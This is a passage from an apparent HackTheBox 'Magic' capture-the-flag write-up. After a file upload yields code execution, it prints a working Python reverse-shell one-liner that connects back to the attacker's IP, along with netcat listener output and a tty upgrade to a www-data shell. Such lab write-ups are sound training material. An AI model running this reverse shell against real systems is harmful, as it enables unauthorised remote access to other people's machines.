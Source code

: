 Lets upload the file and try access it.



![](https://github.com/Strawhack/HackTheBox/blob/master/Magic/Image/8.png)

We have a code execution. Lets try to ping our system, we get a response.

![](https://github.com/Strawhack/HackTheBox/blob/master/Magic/Image/9.png)

Its time for Reverse Shell. Taking the code from [PenTest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), 

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.119",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We get a reverse shell

```ruby
strawhack@linux:~/Desktop$ sudo nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.10.185 43600
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$
```

Going to the user __"theseus"__, we see the user.txt can be accessed by __"theseus"__
